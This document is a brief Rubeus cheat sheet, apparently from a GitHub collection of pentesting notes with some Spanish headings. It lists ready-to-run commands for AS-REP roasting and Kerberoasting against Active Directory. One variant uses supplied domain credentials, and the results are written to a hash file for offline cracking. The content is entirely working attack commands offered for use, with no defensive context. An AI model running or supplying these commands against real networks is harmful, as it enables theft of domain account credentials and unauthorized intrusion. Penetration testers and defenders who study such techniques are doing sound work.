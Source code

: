 # Rubeus Cheat Sheet

#### ASREPRoast Attack
```
Rubeus.exe asreproast /nowrap
```

#### Kerberoasting Attack
```
Rubeus.exe kerberoast /outfile:hash
```

#### Kerberoasting Attack especificando usuario y contraseña de un usuario
```
Rubeus.exe kerberoast /creduser:<DOMAIN>\<USER> /credpassword:<PASSWORD> /outfile:hash
```

---

[:arrow_left: Regresar](https://github.com/m4lal0/cheatsheets)